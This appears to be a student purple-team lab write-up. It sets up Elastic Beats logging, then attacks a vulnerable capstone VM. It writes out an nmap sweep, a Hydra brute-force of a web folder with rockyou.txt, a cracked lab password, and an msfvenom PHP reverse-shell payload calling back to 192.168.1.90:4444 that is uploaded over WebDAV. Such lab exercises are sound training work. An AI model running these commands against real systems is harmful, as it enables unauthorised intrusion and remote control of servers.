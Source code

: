 # Purple Teaming


Monitoring Setup Instructions

As I attack the webserver I need to make sure that my Elastic Stack is logging all activity.

I start by launching the Elastic Stack and Kibana on my monitoring server:

![filebeat_setup.png]

#### Setup Filebeat:

##### Run the following commands:

```bash
filebeat modules enable apache
```
``bash
filebeat setup
```

#### Setup Metricbeat:

##### Run the following commands:


```bash
metricbeat modules enable apache
```
```bash
metricbeat setup
```

![metrcibeat_setup.png]


#### Setup Packetbeat:


##### Run the following command:

```bash
packetbeat setup
```

Restart all 3 services. Run the following commands:

```bash
systemctl restart filebeat
```
```bash
systemctl restart metricbeat
```
```bash
systemctl restart packetbeat
```


## Time To Attack!

Today, I will act as an offensive security Red Teamer to exploit a vulnerable Capstone VM.

##### I will need to use the following tools, in no particular order:

>Firefox
>Hydra
>Nmap
>John the Ripper
>Metasploit
>curl
>MSVenom


Now it's time to search for the webserver that I am looking to attack.

##### Below, the `nmap` command I used to discover the IP address of the Linux web server and have all IPs discovered saved into the file `nmap_scanned_ips`:

```bash
nmap -sn 192.168.0.0/24 | awk '/Nmap scan/{gsub(/[()]/,"",$NF); print $NF > "nmap_scanned_ips"}'
```

From the list of IPs that Nmap has discovered on my virtual private network:

![nmap_scanned_ips]

I then run a service scan on all IPs except the IP of my Kali VM machine (192.168.1.90):


![nmap_webserver_nmap_lookup]


I found the Linux Apache webserver I was looking for with IP address `192.168.1.105` on port `80`.

Next, I open a web browser to access the webserver:

![webserver_webdirectory]


Next, I am tasked with finding a secret folder and break into it.


After reading the company's blog I found a lead on the location of the secret folder:

![secret_folder_clue]

Next, in the "meet our team" section I found an interesting clue about who is in charge of the folder. His name is Ashton:

![secret_folder_admin_ashton]

Next, I used `Hydra` to brute force the access to the secret folder located at /company_folders/secret_folder.

I used the following command to brute force the access to the web page using `ashton` as the username and the `rockyou.txt` wordlist to brute force his password:

```bash
hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder
```

![hydra_brute_forced_password]

Next, I use Ashton's credentials to acces the secret_folder. I found a note that he left to himself, detailing how to connect to the company's webdav server:

![ashton_instruction_webdav]


I noticed a hash for ryan's account is displayed on the page. I decided to use the Crack Station website to crack it... And it worked!

![crack_station_cracked_hash]


The cracked password is: `linux4u`


Next, from the details left by Ashton on how to connect to the Webdav server, I figured out the path using the updated IP address of their server and successfully accessed the login windows and authenticated with the cracked credentials   `Ryan:linux4u`:

 ![]
![]
![]


Following the successful connection to the Webdav server, I am tasked with dropping a PHP reverse Shell payload.

I used `msfvenom` to create my payload file named `exploit.php` with the following command:

```bash
/usr/bin/msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 R > exploit.php
```

![php_payload_creation]


Next, I uploaded the reverse shell payload (exploit.php file) into the Webdav server:

![copy_paste_exploitPHP_in_webdav]



